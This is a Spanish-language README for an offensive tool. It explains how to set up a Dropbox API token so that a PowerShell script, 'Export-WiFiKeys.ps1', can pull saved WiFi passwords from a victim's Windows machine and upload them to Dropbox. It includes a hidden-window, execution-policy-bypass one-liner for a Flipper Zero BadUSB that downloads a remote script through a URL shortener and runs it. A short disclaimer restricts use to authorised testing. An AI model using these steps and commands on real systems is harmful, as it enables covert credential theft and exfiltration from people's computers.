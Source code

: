 # README: Creación y Configuración de una API de Dropbox

## Introducción
Este documento proporciona una guía paso a paso para crear y configurar una API de Dropbox. Se utilizará para automatizar la transferencia de archivos, en particular para la extracción y carga de credenciales WiFi desde un sistema comprometido a Dropbox mediante un script de PowerShell y Flipper Zero.

---

## 1. Creación de una Aplicación en Dropbox

### Paso 1: Acceder a Dropbox Developer
1. Ingresa a [Dropbox Developers](https://www.dropbox.com/developers/apps).
2. Inicia sesión con tu cuenta de Dropbox.
3. Haz clic en "Create App".
   
![tuto](IMG/1.jpg)

### Paso 2: Configurar la Aplicación
1. Selecciona "Scoped access".

   ![tuto1](IMG/2.jpg)
3. En "Choose the type of access you need", elige "App folder".
4. Asigna un nombre a la aplicación (Ejemplo: `bat_Back_USB`).
5. Haz clic en "Create App".

---

## 2. Configurar Permisos de la Aplicación
![tuto2](IMG/3.jpg)

### Paso 3: Editar Permisos
1. Dirígete a la pestaña "Permissions".
2. Marca las opciones:
   - "Edit content"
   - "View content"
3. Haz clic en "Submit" para guardar los cambios.
![tuto3](IMG/4.jpg)
---

## 3. Obtener y Configurar el Access Token
![tuto4](IMG/5.jpg)
### Paso 4: Generar Access Token
1. Ve a la pestaña "Settings" de tu aplicación.
2. Busca la sección "OAuth 2".
3. Haz clic en "Generate Access Token".
4. Copia el token generado.
![tuto5](IMG/6.jpg)
### Paso 5: Configurar el Script
1. Abre el archivo `Export-WiFiKeys.ps1`.
2. Busca la línea `db = ""` (aproximadamente en la línea 49).
3. Pega el Access Token entre las comillas dobles.
4. Guarda el archivo.

---

## 4. Métodos de Ejecución del Script
El script `Export-WiFiKeys.ps1` tiene la funcionalidad incorporada para exfiltrar credenciales y subirlas a Dropbox. Se puede ejecutar de dos formas:

### Opción 1: Ejecutar desde Flipper Zero (BadUSB)
1. Guarda el script en Flipper Zero.
2. Configura la variable `db` con el Access Token de Dropbox en el script.
3. Carga el script a través de la interfaz del dispositivo.
4. Abre una terminal en el Flipper Zero y ejecuta el siguiente comando:

   ```powershell
   powershell -w h -ep bypass $db='API_TOKEN';irm https://goo.su/x3RyN | iex
   ```

### Opción 2: Descargar y Ejecutar el Script en la Máquina Víctima
1. Descarga el archivo `Export-WiFiKeys.ps1` en la máquina víctima.
2. Configura la variable `db` con el Access Token de Dropbox en el script.
3. Abre PowerShell con permisos de administrador.
4. Navega al directorio donde se encuentra el script.
5. Ejecuta el script:

   ```powershell
   .\Export-WiFiKeys.ps1
   ```

En ambas opciones, el script extraerá las credenciales WiFi y las subirá automáticamente a Dropbox.
---

## Notas Importantes
- Asegúrate de tener suficiente espacio en tu cuenta de Dropbox para el archivo ZIP generado.
- El script debe ejecutarse con permisos de administrador en Windows para acceder a las credenciales WiFi.
- Usa este script solo en entornos de prueba con permisos explícitos.

## Licencia y Descargo de Responsabilidad
Este proyecto está licenciado bajo los términos de la licencia MIT. Consulta el archivo LICENSE para más detalles.

🚨 **Descargo de Responsabilidad**: El uso indebido de este código puede estar sujeto a acciones legales. El usuario es responsable de cumplir con todas las leyes locales y regulaciones aplicables. Este proyecto debe utilizarse únicamente con fines educativos y en entornos de pruebas con permisos explícitos.
---
